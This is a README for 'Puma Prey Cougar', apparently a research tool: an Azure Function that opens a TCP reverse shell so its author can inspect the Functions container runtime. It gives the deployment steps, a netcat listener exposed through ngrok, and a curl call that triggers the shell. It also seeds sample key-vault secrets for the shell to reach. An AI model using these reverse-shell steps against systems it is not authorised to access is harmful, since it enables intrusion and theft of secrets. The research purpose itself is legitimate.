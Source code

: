 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET Core 3.1 SDK](https://dotnet.microsoft.com/download)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying the Function

### Native Deployment

Requires the Resource Group, Function App (.NET Core, Linux OS), App Service Plan, App Insights, and Storage Account to be created in US West.

```bash
func azure functionapp publish pumapreycougar
```

Then, enable the function identity to use an MSI account during execution.

### Terraform

NOTE: This needs work to deploy assets, etc.

```bash
cd src
dotnet restore
dotnet build
dotnet publish
cd ../terraform
terraform init
export TF_VAR_UniqueString=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.
terraform plan
terraform apply
```

TODO: Upload cougar.png to the images blob.
TODO: Needs to create an identity and attach the function to the service principal created.
TODO: Grant read, container read to the blob created.

## Deploying Assets

Create some secrets and grant permissions to the function SA.

```
az keyvault secret set --vault-name pumaprey-cougar-vault  --name "cougar-database-user" --value "cougar_user"

az keyvault secret set --vault-name pumaprey-cougar-vault  --name "cougar-database-pass" --value "QnV0IHVuaWNvcm5zIGFwcGFyZW50bHkgZG8gZXhpc3Qu"

az keyvault set-policy --name pumaprey-cougar-vault -g pumaprey-cougar --object-id 0cbd41de-55c6-460d-b92b-837eddd0ea0d --secret-permissions get list
```

## Testing in Azure

Set up a TCP listener for your reverse shell, such as with [Netcat](http://netcat.sourceforge.net/):

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Retrieve the API key in the Azure Portal by searching for "Function App", clicking on the new Function App resource, clicking "Manage", and clicking "Click to show" next to the default function key.

Invoke your function, supplying your connection details and API key:

```bash
curl "https://cougar$TF_VAR_UniqueString.azurewebsites.net/api/Cougar?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER&code=YOUR_API_KEY"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Running Locally

Install [Azure Functions Core Tools](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local) and run the following:

```bash
cd src
dotnet restore
dotnet build
func start
```

## Testing Locally

```bash
curl 'http://localhost:7071/api/Cougar?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

## Azure Function C# Template

```bash
func init Cougar --csharp --dotnet
func new --template "HTTP trigger" --name GetCougar
```
